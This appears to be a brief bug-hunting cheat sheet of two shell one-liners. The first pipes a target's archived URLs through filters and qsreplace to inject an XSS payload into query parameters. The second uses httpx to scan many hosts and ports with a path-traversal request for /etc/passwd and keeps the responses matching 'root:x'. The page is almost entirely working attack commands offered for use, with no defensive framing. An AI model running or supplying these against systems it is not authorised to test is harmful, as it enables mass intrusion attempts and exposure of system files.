 # Oneliners

`echo https://target.com
 | waybackurls | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq`

`cat hosts | httpx -nc -t 250 -p 80,443,8080,8443,4443,8888 -path "///////../../../etc/passwd" -mr "root:x" | anew myP1s.txt`
